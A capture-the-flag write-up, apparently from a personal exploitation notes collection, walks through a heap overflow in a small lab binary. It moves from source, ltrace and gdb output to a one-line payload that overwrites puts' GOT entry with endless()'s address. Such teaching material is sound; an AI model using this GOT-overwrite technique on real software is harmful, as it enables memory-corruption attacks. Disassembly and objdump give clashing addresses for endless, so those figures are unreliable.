 This challenge is based off of a challenge from protostar (heap1 to be exact).

Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct space	
{
	char* star; 
};

void endless()
{
	int i = 5;
	printf("Do you know how much research I could fit in space? I'll give you a hint, more than %d. Level Cleared\n", i);
}

int main(int argc, char **argv)
{
	if (argc != 3)
	{
		puts("You need two arguments in addition to the elf's name to research this.\n");
		exit(0);
	}
	struct space *sun, *moon;

	sun = malloc(sizeof(struct space));
	sun->star = malloc(10);

	moon = malloc(sizeof(struct space));
	moon->star = malloc(10);

	strcpy(sun->star, argv[1]);
	strcpy(moon->star, argv[2]);
	
	puts("Do you know what well rounded researchers like? They like space.\n");
}
```

So looking at this code, we can see a heap overflow vulnerabillity. It checks to make sure that the program takes three arguments (two arguments plus the name), then proceeds to copy the two arguments over to a place allocated in the heap via a malloc call. However it doesn't check to see how much data the strcpy calls are writing. The two places in memory that it is copying to have a static size of 10 bytes set. So we should the heap. 

We can see that in order to pwn this challenge, we have to run the endless() function. We see that we have the abillity to write twice to the heap, using addresses that point towards the heap. What we can do is overflow sun->star (like a buffer overflow) to overwrite the address of moon->star with that of the puts function using the first strcpy function. This way the second strcpy function would write over the address with an address that we want (such as the address of the endless function). Then when the program tries to run the puts function, it will just end up running whatever is stored at the addres we want. Let's find the offset, using a utillity called ltrace.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1_64$ ltrace ./h1_64 0000 1111
__libc_start_main(0x40066c, 3, 0x7fffffffdf58, 0x400730 <unfinished ...>
malloc(8)                                        = 0x602010
malloc(10)                                       = 0x602030
malloc(8)                                        = 0x602050
malloc(10)                                       = 0x602070
strcpy(0x602030, "0000")                         = 0x602030
strcpy(0x602070, "1111")                         = 0x602070
puts("Do you know what well rounded re"...Do you know what well rounded researchers like? They like space.
)      = 65
+++ exited (status 0) +++

```

So we can see here that our input is being stored at 0x602030 with the first strcpy, and to 0x602070 using the second strcoy. We can see here that there are four allocated places in the heap memory, one for each malloc call. We can see that the spaces at 0x602010 and 0x602050 only contain 8 bytes worth of data. This is because the size parameter that is handed to them is the size of the space struct, which the space struct only contains a pointer to a char (which is just an address pointing to a space) and addresses in 64 bit systems are 8 bytes long (even thought heap addresses fon't appear to occupy all of the space, so 0s are needed). So the only thing the sun and moon iterations of the space struct contain are a 8 byte address pointer. We also see that the pointers sun->space and moon-> space have 10 bytes allocated to them via a malloc call. Because of those malloc calls those pointers actually point to allocated space now. 

Also notice how the heap spaces outputted by the ltrace command match the order that the heap space is allocated via malloc calls in the program. This isn't a coincidence. When allocating space in the heap via malloc calls, the order of the spaces is determined by the order that the malloc calls are made. Now we made a lot of claims here, let's prove some of them using gdb. We will set a breakpoint for the printf (compiler changed it to puts) call in main (exact location shouldn't matter as long as it's past the corresponding malloc calls), and analyze the corresponding addresses to determine that sun->star and moon->star both contain a pointer to a memory address (which will be 0x602030 for sun->star and 0x602070 for moon->star). Also that the memory areas they point to contain our input.

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x000000000040066c <+0>:	push   rbp
   0x000000000040066d <+1>:	mov    rbp,rsp
   0x0000000000400670 <+4>:	sub    rsp,0x20
   0x0000000000400674 <+8>:	mov    DWORD PTR [rbp-0x14],edi
   0x0000000000400677 <+11>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000040067b <+15>:	cmp    DWORD PTR [rbp-0x14],0x3
   0x000000000040067f <+19>:	je     0x400695 <main+41>
   0x0000000000400681 <+21>:	mov    edi,0x400820
   0x0000000000400686 <+26>:	call   0x4004f0 <puts@plt>
   0x000000000040068b <+31>:	mov    edi,0x0
   0x0000000000400690 <+36>:	call   0x400530 <exit@plt>
   0x0000000000400695 <+41>:	mov    edi,0x8
   0x000000000040069a <+46>:	call   0x400520 <malloc@plt>
   0x000000000040069f <+51>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006a3 <+55>:	mov    edi,0xa
   0x00000000004006a8 <+60>:	call   0x400520 <malloc@plt>
   0x00000000004006ad <+65>:	mov    rdx,rax
   0x00000000004006b0 <+68>:	mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004006b4 <+72>:	mov    QWORD PTR [rax],rdx
   0x00000000004006b7 <+75>:	mov    edi,0x8
   0x00000000004006bc <+80>:	call   0x400520 <malloc@plt>
   0x00000000004006c1 <+85>:	mov    QWORD PTR [rbp-0x10],rax
   0x00000000004006c5 <+89>:	mov    edi,0xa
   0x00000000004006ca <+94>:	call   0x400520 <malloc@plt>
   0x00000000004006cf <+99>:	mov    rdx,rax
   0x00000000004006d2 <+102>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006d6 <+106>:	mov    QWORD PTR [rax],rdx
   0x00000000004006d9 <+109>:	mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004006dd <+113>:	add    rax,0x8
   0x00000000004006e1 <+117>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006e4 <+120>:	mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004006e8 <+124>:	mov    rax,QWORD PTR [rax]
   0x00000000004006eb <+127>:	mov    rsi,rdx
   0x00000000004006ee <+130>:	mov    rdi,rax
   0x00000000004006f1 <+133>:	call   0x4004e0 <strcpy@plt>
   0x00000000004006f6 <+138>:	mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004006fa <+142>:	add    rax,0x10
   0x00000000004006fe <+146>:	mov    rdx,QWORD PTR [rax]
   0x0000000000400701 <+149>:	mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400705 <+153>:	mov    rax,QWORD PTR [rax]
   0x0000000000400708 <+156>:	mov    rsi,rdx
   0x000000000040070b <+159>:	mov    rdi,rax
   0x000000000040070e <+162>:	call   0x4004e0 <strcpy@plt>
   0x0000000000400713 <+167>:	mov    edi,0x400868
   0x0000000000400718 <+172>:	call   0x4004f0 <puts@plt>
   0x000000000040071d <+177>:	mov    eax,0x0
   0x0000000000400722 <+182>:	leave  
   0x0000000000400723 <+183>:	ret    
End of assembler dump.
gdb-peda$ b *main+172
Breakpoint 1 at 0x400718
gdb-peda$ r 7539 9517
```

One wall of text later...

```
Breakpoint 1, 0x0000000000400718 in main ()
gdb-peda$ x/w 0x602010
0x602010:	0x00602030
gdb-peda$ x/s 0x602030
0x602030:	"7539"
gdb-peda$ x/w 0x602050
0x602050:	U"\x602070"
gdb-peda$ x/s 0x602070
0x602070:	"9517"
```

So as you can see there, we showed that the spaces 0x602010 and 0x602050 contain pointers to spaces at 0x602030 and 0x602050 which contain our input. So for this exploit we will simply use the first strcpy to overflow the memory starting at 0x602030 to overwrite the pointer stored at 0x602050 of some other address, then we can rewrite the address with the second strcpy call to that of the endless function so we can pwn the challenge. Looking at the code, we see a call to printf after our two strcpy functions however looking at the assembly we can see that it is calling something else.

```
   0x0000000000400718 <+172>:	call   0x4004f0 <puts@plt>
```

Even though we have in our code to call the printf function, we are just printing text. We aren't printing any chars, pointers, integers or anything else. Since we aren't the compiler will just substitue in puts instead of printf, since puts is a simpler version of printf and will do it's job just fine. This actually works in our advantage since in the endless function, that printf call is actually printing an int. So the compiler will use printf instead of puts, so we won't run into an issue with trying to run a function that we overwritten to call the endless function and enter a loop that ends with the program crashing.

```
gdb-peda$ disas endless
Dump of assembler code for function endless:
   0x0000000000400646 <+0>:	push   rbp
   0x0000000000400647 <+1>:	mov    rbp,rsp
   0x000000000040064a <+4>:	sub    rsp,0x10
   0x000000000040064e <+8>:	mov    DWORD PTR [rbp-0x4],0x5
   0x0000000000400655 <+15>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400658 <+18>:	mov    esi,eax
   0x000000000040065a <+20>:	mov    edi,0x4007b8
   0x000000000040065f <+25>:	mov    eax,0x0
   0x0000000000400664 <+30>:	call   0x400500 <printf@plt>
   0x0000000000400669 <+35>:	nop
   0x000000000040066a <+36>:	leave  
   0x000000000040066b <+37>:	ret    
End of assembler dump.
```

As you can see there, my previous claim held true. Now the first step is figuring out the offset between the start of our input, and where the moon->star pointer is stored. Then we will have to come up with the address of puts, and endless. 

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1_64$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x602050 - 0x602030
32
>>> exit()
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1_64$ objdump -R h1_64 | grep puts
0000000000600bd8 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1_64$ objdump -D h1_64 | grep endless
0000000000400606 <endless>:
```

So we have the offset which is 32, the address of puts which is 0x600bd8 (for this exploit, we can ignore the zeroes, and the binary will read it all the same), and the address of endless which is 0x400606. Now to craft the exploit to overflow the address (remember we have to push the hex strings using little endian still).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1_64$ ./h1_64 `python -c 'print "0"*32 + "\xd8\x0b\x60" + " " + "\x06\x06\x40"'` 
Do you know how much research I could fit in space? I'll give you a hint, more than 5. Level Cleared
```

Just like that we pwned the binary! 
